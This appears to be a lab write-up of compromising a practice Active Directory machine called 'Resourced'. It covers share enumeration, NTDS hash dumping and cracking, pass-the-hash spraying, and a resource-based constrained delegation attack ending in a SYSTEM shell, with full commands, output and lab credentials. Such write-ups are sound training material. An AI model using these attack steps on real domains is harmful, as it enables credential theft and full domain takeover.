



# Resourced - Active Directory

---

## Enumeration


---

## SMB Enumeration

-No access to shares

```
enum4linux -a 192.168.139.175 
```


* This reveals users lists. 
* Credentials for user V.Ventz - HotelCalifornia194!

## Login to smb share via V.Ventz
```
smbclient -L //192.168.139.175 -U 'Resourced\V.Ventz'
NETLOGON        Disk      Logon server share 
Password Audit  Disk      
```

-Password Audit share has ntds and system files



## Dump using impacket. We get hashes of all the users
```
	impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
	...
```
## extract only the hashes. Save them and crack the hashes.
---
    cat hashes.txt|cut -d : -f 4
	12579b1666d4ac10f0f59f300776495f
	31d6cfe0d16ae931b73c59d7e0c089c0
	9ddb6f4d9d01fedeb4bccfb09df1b39d
	...
---

## Crackstation
```
Hash	                                Type	Result
12579b1666d4ac10f0f59f300776495f	NTLM	ItachiUchiha888
31d6cfe0d16ae931b73c59d7e0c089c0	NTLM	

Cracked only 1 hash Administrator:ItachiUchiha888
```

## spray users against hashes for smb and winrm (Lateral Movement)

```
crackmapexec winrm 192.168.139.175 -u users.txt -H hashes.txt --continue-on-success
```
- paw3d! - resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)

## connect via evilwinrm as L.Livingstone
```
evil-winrm -i 192.168.139.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
evil-winrm -i 192.168.139.175 -u resourced.cocal\L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808-
```

-Got shell

-------------------------------------------------------------------------------------

## Privilege Esc


* BloodHound analysis shows user L.Livingstone has genericAll permission to DC(RESOURCEDC.RESOURCED.LOCAL).

* Perform a Resource Based Constrained Delegation attack to get access to the DC.
  
### Step 1 - But There is no user or computer that we are trusted to authenticate with. So with the l.livingstone account , create a new machine account on the domain

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
└─$ impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.139.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'Attacker$' -computer-pass 'Password123!'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account Attacker$ with password Password123!.
```

### Step 2 - set msDS-AllowedToActOnBehalfOfOtherIdentity on our new machine account.

``` 
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
└─$ sudo python3 rbcd.py -dc-ip 192.168.139.175 -t RESOURCEDC -f 'Attacker' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against RESOURCEDC$
[*] Initializing LDAP connection to 192.168.139.175
[*] Using resourced\l.livingstone account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `Attacker` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `RESOURCEDC`
[*] Delegation rights modified succesfully!
[*] Attacker$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

### Step 3 -Get Administrator service ticket with privileged machine account
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/Attacker\$:'Password123!' -impersonate Administrator -dc-ip 192.168.139.175

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```
### Step 4 -Export the Kerberos Ticket
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
└─$ export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache 
```

### Step 5 - Add the domain to /etc/hosts
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
└─$ sudo sh -c 'echo "192.168.139.175 resourcedc.resourced.local" >> /etc/hosts'
```

### Step 6 -get system access via impacket-psexec

```
──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/Resourced]
─$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.139.175
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file tEZALDfJ.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service kMbo on resourcedc.resourced.local.....
[*] Starting service kMbo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


